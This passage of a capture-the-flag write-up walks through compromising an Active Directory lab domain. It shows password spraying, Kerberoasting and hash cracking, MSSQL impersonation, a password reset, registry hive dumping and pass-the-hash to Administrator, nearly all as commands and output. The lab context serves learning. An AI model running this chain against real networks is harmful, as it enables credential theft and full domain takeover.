SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Tracy.Wood:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Lynne.Tyler:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Charlene.Wallace:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Cheryl.Singh:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Sian.Gordon:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Gordon.Brown:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Irene.Dean:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Anthony.Anderson:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Julian.Davies:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Hannah.O'Neill:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Rachel.Jones:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Declan.Woodward:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Annette.Buckley:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Elliott.Jones:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Grace.Lees:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Deborah.Francis:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Bruce.Cartwright:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Nigel.Brown:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Derek.Wyatt:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [+] hokkaido-aerospace.com\\discovery:Start123!
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\maintenance:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\hrapp-service:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\info:Start123! STATUS_LOGON_FAILURE
```

## Kerberoasting

I proceeded to **Kerberoasting** and identified two SPNs: `discovery` and `maintenance` . Since I already possessed the password for `discovery` , I focused my efforts on the `maintenance` user.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ impacket-GetUserSPNs -dc-ip $IP hokkaido-aerospace.com/info:info -request -outputfile hashes.txt 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName                   Name         MemberOf                                           PasswordLastSet             LastLogon  Delegation 
-------------------------------------  -----------  -------------------------------------------------  --------------------------  ---------  ----------
discover/dc.hokkaido-aerospace.com     discovery    CN=services,CN=Users,DC=hokkaido-aerospace,DC=com  2023-12-06 15:42:56.221832  <never>               
maintenance/dc.hokkaido-aerospace.com  maintenance  CN=services,CN=Users,DC=hokkaido-aerospace,DC=com  2023-11-25 13:39:04.869703  <never>               

[-] CCache file is not found. Skipping...
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ impacket-GetUserSPNs -dc-ip $IP hokkaido-aerospace.com/info:info -request-user maintenance -outputfile maintenance_hash.txt
```

I confirmed the hash type as **Kerberos (Hashcat mode 13100)**; however, attempts to crack it using the `rockyou.txt` wordlist were unsuccessful.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ hashcat --identify maintenance_hash.txt 
The following hash-mode match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
  13100 | Kerberos 5, etype 23, TGS-REP                              | Network Protocol
┌──(kali㉿kali)-[~/Desktop]
└─$ hashcat -m 13100 -a 0 discovery_hash.txt /usr/share/wordlists/rockyou.txt
```

## MSSQL 1433

Turning to **MSSQL**, I found that none of the compromised accounts had permissions to execute commands.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ impacket-mssqlclient discovery@$IP -windows-auth
SQL (HAERO\\discovery  guest@master)> EXECUTE sp_configure 'show advanced options', 1
ERROR(DC\\SQLEXPRESS): Line 105: User does not have permission to perform this action.
```

However, I discovered that I could impersonate the `hrappdb-reader` user.

```bash
SQL (HAERO\\discovery  guest@master)> SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
name             
--------------   
hrappdb-reader
```

After impersonating `hrappdb-reader` , I switched the database context from `master` to `hrappdb` .

```bash
SQL (HAERO\\discovery  guest@master)> use master;
SQL (HAERO\\discovery  guest@master)> execute as login = 'hrappdb-reader'
SQL (hrappdb-reader  guest@master)> select system_user
                 
--------------   
hrappdb-reader
SQL (hrappdb-reader  guest@master)> use hrappdb;
ENVCHANGE(DATABASE): Old Value: master, New Value: hrappdb
```

Within the database, I found a table named `sysauth` containing the credentials `hrapp-service:Untimed$Runny`.

```bash
SQL (hrappdb-reader  hrappdb-reader@hrappdb)> select * from hrappdb.information_schema.tables;
TABLE_CATALOG   TABLE_SCHEMA   TABLE_NAME   TABLE_TYPE   
-------------   ------------   ----------   ----------   
hrappdb         dbo            sysauth      b'BASE TABLE'   
SQL (hrappdb-reader  hrappdb-reader@hrappdb)> select * from sysauth;
id   name               password           
--   ----------------   ----------------   
 0   b'hrapp-service'   b'Untimed$Runny'
```

## Bloodhound

Despite having new credentials, I was still unable to gain remote access. I shifted my analysis to `Bloodhound` , which revealed that the `hrapp-service` user holds **GenericWrite** privileges over the `hazel.green` account.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ bloodhound-python -u hrapp-service -p 'Untimed$Runny' -ns $IP -d hokkaido-aerospace.com -c All --zip
```





I executed a **Targeted Kerberoasting** attack as `hrapp-service` , successfully obtaining the Kerberos hash for `hazel.green` .

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 targetedKerberoast.py -d hokkaido-aerospace.com -u hrapp-service -p 'Untimed$Runny' --dc-ip $IP
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (Hazel.Green)
$krb5tgs$23$*Hazel.Green$HOKKAIDO-AEROSPACE.COM$hokkaido-aerospace.com/Hazel.Green*$6546677decf8059b9883a5d581886648$f8f92eeae783208e68d2<SNIP>

[+] Printing hash for (discovery)
$krb5tgs$23$*discovery$HOKKAIDO-AEROSPACE.COM$hokkaido-aerospace.com/discovery*$1944030e065326127a50aa845b7a106f$bb5ba738031ded15daab79ec<SNIP>

[+] Printing hash for (maintenance)
$krb5tgs$23$*maintenance$HOKKAIDO-AEROSPACE.COM$hokkaido-aerospace.com/maintenance*$3ce10eb21c95a9f6bae52feb635e3713$e2d137fa96c1b48c93cc<SNIP>
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ echo '$krb5tgs$23$*Hazel.Green$HOKKAIDO-AEROSPACE.COM$hokkaido-aerospace.com/Hazel.Green*$6546677decf8059b9883a5d581886648$f8f92eeae783208e68d27a1e6bc732ce0e8e1162074d65cfb740c69ed5742b8742dee9014155e1843771e0bd17dd7a1725a36929cb2a827768ca72407247739cf2ed8d8a2073d74898c066ae880c0dfd8fa1c1af2447dfa590c0742a1e3f9cd9d6e3d36ce1d25533aefc0f20718b490bf14def18a65edc1c58fb53b96f5eadbbc10461486828a7bec3a9a98971cd5d41396789bb446082d392cb89b102de91b3d35a65a610fbe7c37737c278a5d3dae34da8474eb0c3aa780d5c68e89fec0a813f33c848f55b84a9fcda33a2d5e476a9c67865eef528c366b7c8a060bc0b8f29bfab9adc212c1792d5782493e07e444cc8ff363572249b3c4f3606ca3d3e229b37c1bfc480d3f793670c56bba47fb4c4fe52c23b985d6e5bdf5212f1a6c98edeb7c7cbf47fec59331963badea0fa2e2429fe205e21075319d6a4886c009206b33a42b513943e00eb5b59db375ec054d74110705d2839d93889d1eb0242e58c24684782652f045509787149302b234e7c6b2fd3f8cca8aa999b0f98aa8a3a7beb3368325c74e49f879e3a61412db097012d90ebf4aa1a083f2854c6721558848185ae85c3dd0d5303148db1df4331b3ff2aa57e4e35f17bcefa94c73db4bee0c9e251e2a99f01ed50c69a5ef45deaa72511759409867e95b762e70abbc35e8d08101a81593862233837a004266a0c11f4699c861a96ae0e33205d7cf8d0c1d4ffd8801f774494484d4fa6c3dc69f159de499a7645c693fd1098b72fba999d210fa122e957e840cdb4a9450311ce0a845820e53776ef14109d7ebe4f15fd0f993cbf910107901b465f29744b8b9a5a1fac049fd278be650551e2fd78048d649c1bde117dc2c76ace4edebad1c6001f47ba7dcbee84b3ed5f8a5f9b549ef0be761e90a12471120650ef0cd70c302e4e34102b0cf7cdeb7c0075e7fceab2d7da3ef81204abac917d77cab828f4357e9606f57361a4d1d8b5b89b5aa1de394e0fbf13c025dde37e71ae7b918e0612c9bcae425eb9d12af9119c9f2aa76abbdc2c7b554ab721a73c1b8244c230c3d6dffe889a3fe8c2d93567fb56a47a1161c8ed3f2109c40e6b5132178d5f0506488a55020ba5b0582efa78e2f36d7b54232c3366bcd216b7f80822b2091df9928a78ddeb696e8651d1945d13f85c3fce70b62cb706cd078057c99758a98ed081dca390273d5f1a419cbb8ae21d10f9b0e8cb42fea56b400029b4b81b7386f7439bc220ec7fbb2e7ef0102c3c7f2d7109e86bf2661ec748aba2f285e690af9cdab6fb81fe7331c0f2e91e4ba15a324c9d970816abc322985fa894f74050ae9cc63cafab71a081cfbc211c48099197123d42c5181bf523088de426c497e00077511acb86ce4a75702de73198ba3152cb829f68953934048aad98de642a6056d14c297a50e5df71ed122ab35ea94cb142a10d412fb9312a23147e75e5f5cfc0c0f6259cc5ffbf1f2850d24cab56d4a3c09b6ac9cb78de42e67ca850408fedda0c3af209fc2c163e3c400709c54309a642b574f87a254ea70c7a8517b12ef17367781840f8dcb7ed0c5cc41bd140134b110ca3b00eedbc287bea05a4bdecb1f0b7453c8bc42144c5f6a66cf959ae5c6766ed3e7c1d7a9a0465a48dee9b7ed69fd829b3' > hazel.hash
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ hashcat --identify hazel.hash 
The following hash-mode match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
  13100 | Kerberos 5, etype 23, TGS-REP                              | Network Protocol
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ hashcat -m 13100 -a 0 hazel.hash /usr/share/wordlists/rockyou.txt
```

I successfully cracked the hash using `Hashcat` along with the wordlist `rockyou.txt`

```bash
$krb5tgs$23$*Hazel.Green$HOKKAIDO-AEROSPACE.COM$hokkaido-aerospace.com/Hazel.Green*$6546677decf8059b9883a5d581886648$f8f92eeae783208e68d27a1e6bc732ce0e8e1162074d65cfb740c69ed5742b8742dee9014155e1843771e0bd17dd7a1725a36929cb2a827768ca72407247739cf2ed8d8a2073d74898c066ae880c0dfd8fa1c1af2447dfa590c0742a1e3f9cd9d6e3d36ce1d25533aefc0f20718b490bf14def18a65edc1c58fb53b96f5eadbbc10461486828a7bec3a9a98971cd5d41396789bb446082d392cb89b102de91b3d35a65a610fbe7c37737c278a5d3dae34da8474eb0c3aa780d5c68e89fec0a813f33c848f55b84a9fcda33a2d5e476a9c67865eef528c366b7c8a060bc0b8f29bfab9adc212c1792d5782493e07e444cc8ff363572249b3c4f3606ca3d3e229b37c1bfc480d3f793670c56bba47fb4c4fe52c23b985d6e5bdf5212f1a6c98edeb7c7cbf47fec59331963badea0fa2e2429fe205e21075319d6a4886c009206b33a42b513943e00eb5b59db375ec054d74110705d2839d93889d1eb0242e58c24684782652f045509787149302b234e7c6b2fd3f8cca8aa999b0f98aa8a3a7beb3368325c74e49f879e3a61412db097012d90ebf4aa1a083f2854c6721558848185ae85c3dd0d5303148db1df4331b3ff2aa57e4e35f17bcefa94c73db4bee0c9e251e2a99f01ed50c69a5ef45deaa72511759409867e95b762e70abbc35e8d08101a81593862233837a004266a0c11f4699c861a96ae0e33205d7cf8d0c1d4ffd8801f774494484d4fa6c3dc69f159de499a7645c693fd1098b72fba999d210fa122e957e840cdb4a9450311ce0a845820e53776ef14109d7ebe4f15fd0f993cbf910107901b465f29744b8b9a5a1fac049fd278be650551e2fd78048d649c1bde117dc2c76ace4edebad1c6001f47ba7dcbee84b3ed5f8a5f9b549ef0be761e90a12471120650ef0cd70c302e4e34102b0cf7cdeb7c0075e7fceab2d7da3ef81204abac917d77cab828f4357e9606f57361a4d1d8b5b89b5aa1de394e0fbf13c025dde37e71ae7b918e0612c9bcae425eb9d12af9119c9f2aa76abbdc2c7b554ab721a73c1b8244c230c3d6dffe889a3fe8c2d93567fb56a47a1161c8ed3f2109c40e6b5132178d5f0506488a55020ba5b0582efa78e2f36d7b54232c3366bcd216b7f80822b2091df9928a78ddeb696e8651d1945d13f85c3fce70b62cb706cd078057c99758a98ed081dca390273d5f1a419cbb8ae21d10f9b0e8cb42fea56b400029b4b81b7386f7439bc220ec7fbb2e7ef0102c3c7f2d7109e86bf2661ec748aba2f285e690af9cdab6fb81fe7331c0f2e91e4ba15a324c9d970816abc322985fa894f74050ae9cc63cafab71a081cfbc211c48099197123d42c5181bf523088de426c497e00077511acb86ce4a75702de73198ba3152cb829f68953934048aad98de642a6056d14c297a50e5df71ed122ab35ea94cb142a10d412fb9312a23147e75e5f5cfc0c0f6259cc5ffbf1f2850d24cab56d4a3c09b6ac9cb78de42e67ca850408fedda0c3af209fc2c163e3c400709c54309a642b574f87a254ea70c7a8517b12ef17367781840f8dcb7ed0c5cc41bd140134b110ca3b00eedbc287bea05a4bdecb1f0b7453c8bc42144c5f6a66cf959ae5c6766ed3e7c1d7a9a0465a48dee9b7ed69fd829b3:haze1988
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*Hazel.Green$HOKKAIDO-AEROSPACE.COM$hok...d829b3
Time.Started.....: Mon Feb 23 02:48:48 2026 (9 secs)
Time.Estimated...: Mon Feb 23 02:48:57 2026 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   874.4 kH/s (0.99ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 7661568/14344385 (53.41%)
Rejected.........: 0/7661568 (0.00%)
Restore.Point....: 7659520/14344385 (53.40%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: hazlam -> hayward10
Hardware.Mon.#1..: Util: 68%

Started: Mon Feb 23 02:48:47 2026
Stopped: Mon Feb 23 02:48:58 2026
```

After making `hazel.green` as compromised in `Bloodhound` , I analyzed the next steps. While `hazel.green` , `molly.smith` , and `alexandra.little` were part of the IT group, the immediate path forward wasn’t initially clear.



I utilized `bloodyAD` to audit `hazel.green` ’s permissions, which revealed the ability to reset the password for `molly.smith`.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 /opt/bloodyAD/bloodyAD.py --host $IP -d hokkaido-aerospace.com -u hazel.green -p haze1988 -d hokkaido-aerospace.com get writable --detail

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=hokkaido-aerospace,DC=com
url: WRITE
wWWHomePage: WRITE

distinguishedName: CN=Hazel Green,OU=admins,OU=it,DC=hokkaido-aerospace,DC=com
thumbnailPhoto: WRITE
pager: WRITE
mobile: WRITE
<SNIP>

distinguishedName: CN=Molly Smith,OU=Tier1,OU=admins,OU=it,DC=hokkaido-aerospace,DC=com
pwdLastSet: WRITE

distinguishedName: DC=hokkaido-aerospace.com,CN=MicrosoftDNS,DC=DomainDnsZones,DC=hokkaido-aerospace,DC=com
dnsNode: CREATE_CHILD
dnsZoneScopeContainer: CREATE_CHILD

distinguishedName: DC=_msdcs.hokkaido-aerospace.com,CN=MicrosoftDNS,DC=ForestDnsZones,DC=hokkaido-aerospace,DC=com
dnsNode: CREATE_CHILD
dnsZoneScopeContainer: CREATE_CHILD
```

Using `rpcclient` , I manually updated Molly’s password to `haze1988` (synchronizing it with Hazel’s password for convenience).

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ rpcclient -U "hazel.green%haze1988" $IP
rpcclient $> setuserinfo2 molly.smith 23 haze1988
```

# Shell as `molly.smith`

I confirmed that Molly is a member of the “**Remote Management Users**” group, allowing me to RDP into the target.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ xfreerdp3 /v:$IP /u:molly.smith /p:haze1988 /dynamic-resolution +clipboard
```

Once logged in, I launched an administrative **Command Prompt** to view all assigned privileges.



# Privilege Escalation



Among several assigned privileges, **SeBackupPrivilege** was the most prominent, as it allows a user to bypass ACLs to access any file or directory on the system.

```bash
C:\\Windows\\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== ========
SeMachineAccountPrivilege     Add workstations to domain          Disabled
SeSystemtimePrivilege         Change the system time              Disabled
SeBackupPrivilege             Back up files and directories       Disabled
SeRestorePrivilege            Restore files and directories       Disabled
SeShutdownPrivilege           Shut down the system                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Disabled
SeTimeZonePrivilege           Change the time zone                Disabled
```

Leveraging **SeBackUpPrivilege**, I extracted **SAM** and **SYSTEM** registry hives and transferred them to my Kali machine.

```bash
C:\\Users\\Public>reg save hklm\\sam C:\\Users\\Public\\sam
The operation completed successfully.

C:\\Users\\Public>reg save hklm\\system C:\\Users\\Public\\system
The operation completed successfully.
```



I then dumped the local hashes using `impacket-secretsdump`.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ impacket-secretsdump -sam sam -system system LOCAL                                                                         
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x2fcb0ca02fb5133abd227a05724cd961
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d752482897d54e239376fddb2a2109e4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up...
```

# Shell as `Administrator`

Finally, I gained full system access by authenticating as the `Administrator` via a **Pass-the-Hash** using `evil-winrm`.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ evil-winrm -i $IP -u Administrator -H d752482897d54e239376fddb2a2109e4
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: <https://github.com/Hackplayers/evil-winrm#Remote-path-completion>
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\\Users\\Administrator\\Documents> whoami
haero\\administrator
```

Found `proof.txt`

```bash
*Evil-WinRM* PS C:\\Users\\Administrator\\Desktop> dir

    Directory: C:\\Users\\Administrator\\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        12/12/2023   1:17 AM             96 mail.txt
-a----         2/22/2026   7:26 PM             34 proof.txt

*Evil-WinRM* PS C:\\Users\\Administrator\\Desktop> type proof.txt
b48...
```